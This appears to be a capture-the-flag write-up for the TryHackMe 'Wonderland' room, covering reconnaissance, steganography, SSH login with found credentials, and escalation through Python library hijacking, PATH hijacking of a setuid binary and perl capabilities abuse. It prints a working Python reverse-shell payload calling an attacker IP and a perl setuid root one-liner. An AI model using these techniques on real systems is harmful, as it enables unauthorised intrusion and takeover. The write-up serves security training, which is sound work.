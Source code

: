 # TryHackMe - Wonderland - Linux

- [Room](https://tryhackme.com/room/wonderland)

## Nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=3/31%OT=22%CT=1%CU=39160%PV=Y%DS=4%DC=I%G=Y%TM=6245C38
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10F%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST1
OS:1NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 729.87 seconds
```

## Port 80

- Let's run Gobuster
```
┌──(root💀kali)-[~]
└─# gobuster dir -u http://10.10.229.155/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.229.155/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/31 11:22:01 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 0] [--> img/]
/poem                 (Status: 301) [Size: 0] [--> poem/]
/r                    (Status: 301) [Size: 0] [--> r/]   
                                                         
===============================================================
2022/03/31 11:31:29 Finished
===============================================================
```
- On /poem we have The Jabberwocky poem  
![image](https://user-images.githubusercontent.com/96747355/161145799-79de6b1d-0d51-417c-94bd-9538e36b8b73.png)  
- On /r we have nothing interesting
- On /img there are some images
- Let's modify our /etc/hosts and add this `10.10.95.114 wonderland`
- Now we can use gobuster for subdomain enumeration as well (it does not five anything but it was worth a try)
- Let's have a closer look to the images.
- First lets take the rabbit one As it is written pretty much everywhere to follow the white rabbit.
```
┌──(root💀kali)-[~/Documents/tryhackme/wonderland]
└─# steghide --info white_rabbit_1.jpg         
"white_rabbit_1.jpg":
  format: jpeg
  capacity: 99.2 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "hint.txt":
    size: 22.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```
- It asks for a passphrase but there is no need to enter anything you can just type enter.
- And we can see that a hint is embeded in the image, lets extract it ` steghide --extract -sf white_rabbit_1.jpg`sf will specify it is a stego file.
- Here is the hint
```
┌──(root💀kali)-[~/Documents/tryhackme/wonderland]
└─# cat hint.txt     
follow the r a b b i t                                                                                                                                                                                                               
```
In our gobuster there was an r directory. So this probably means that `r a b b i t` is a path that we need to **follow** 
- Indeed at each page we get the follow up fo the story `http://wonderland/r/a/b/b/i/t/`  
![image](https://user-images.githubusercontent.com/96747355/161146081-674e96f8-0d60-42e5-8a5c-e9511e534a20.png)  
- If we look at the code of the last page we get what seems to be user:pass:
```
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```
- Let's try those on the ssh. It works:
```
alice@wonderland:~$ 
```
- If we check the hint for the user.txt it says everything is upside down so I tried to find a file called `txt.resu` but it was not it, then I realized as we have the root.txt in alice's folder maybe the user.txt is in a the root so I tried a `cat /root/user.txt` 
- And it worked!
- Let's try to become root

## Privilege Escalation

- If we sudo -l using alice password, we get htis
```
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
- If we l0ok at the python script it seems to show 10 of any sentence of the poem randomly
```
for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```
- Having the right to this specific file means that this the way to privesc.
- It seems like we could hijack the python library. I found [this really interesintg article that explains it pretty well](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8)
- So our walrus script uses the library random.py. I modified it like this to get a reverse shell and I launched it as the user rabbit this way: `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`
```
#!/usr/bin/python3
from os import dup2
from subprocess import run
import socket
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.13.22.56",8888)) 
dup2(s.fileno(),0) 
dup2(s.fileno(),1) 
dup2(s.fileno(),2) 
run(["/bin/bash","-i"])
```
- And it works we have a shell as rabbit:  
![image](https://user-images.githubusercontent.com/96747355/161157090-1444f291-a4e1-4efc-8373-2706cd00e399.png)  
- With a shell as rabbit we can now have a look at their home folder and we can see this file called teaParty. If we use file on it we get this result:
```
file teaParty
teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped
```
If we launch it it ends with a segfault
```
Probably by Thu, 31 Mar 2022 23:15:41 +0000

Welcome to the tea party!
The Mad Hatter will be here soon.
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
```

- Let's take a look at it from our attacking machine as we do not have a the strings function in the target machine
- we can serve it using http server of python as it is installed in the machine `python3.6 -m http.server 8888`
- And we take it using wget  
![image](https://user-images.githubusercontent.com/96747355/161159311-d81208ba-f7c3-4003-88fc-6d4bf0fb104d.png)  
- When we look at it with strings we see this line:
```
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```
- So date is invoked without using the full path, we could certainly abuse this by putting a file called date and make it do something for us.
- Let's just make it run bash using `/bin/bash`  
![image](https://user-images.githubusercontent.com/96747355/161160256-614b80cc-961a-4eaa-ac3d-bfedf16a90bf.png)  
- Now we serve it from our attacking machine with python and get it in our target
- We have to make it executable with `chmod +x`
- And we need to export rabbit's home as our path 
```
export PATH=/home/rabbit:$PATH
echo $PATH
/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
```

- And now we can run our binary! And it works  
![image](https://user-images.githubusercontent.com/96747355/161160721-3ceaafc0-f471-4c8a-a62e-30df37f6233c.png)  
- We are the mad hatter!! If we go to his home directory we get his password `WhyIsARavenLikeAWritingDesk?` so we can connect as him using ssh:  
![image](https://user-images.githubusercontent.com/96747355/161160960-8886a779-8272-462f-b804-15015a358b5c.png)  

- There are no specific file that caught our attention and sudo -l does not list anything so let's get linepeas and check out what we could do.
- `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64` we run this in our attacking machine
- We serve it using python server `python3 -m http.server 80`
- We dowload it in our target `wget http://10.13.22.56/linpeas_linux_amd64`
- add it execution right with `chmod +x` and run it ./linpeas_linux_amd64
- We have a 95% PE vector:  
![image](https://user-images.githubusercontent.com/96747355/161161958-102231a7-45a4-4127-85ad-5d2851eef10f.png)  
- [This article](https://gtfobins.github.io/gtfobins/perl/#capabilities) shows us a way to abuse this I slightly modified the command to use bash instead of sh `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'` and it works!  
![image](https://user-images.githubusercontent.com/96747355/161162600-29d8758f-f86a-44b6-a5ee-a591236ba6bb.png)  
- We are root and can read our last flag on alice's home!
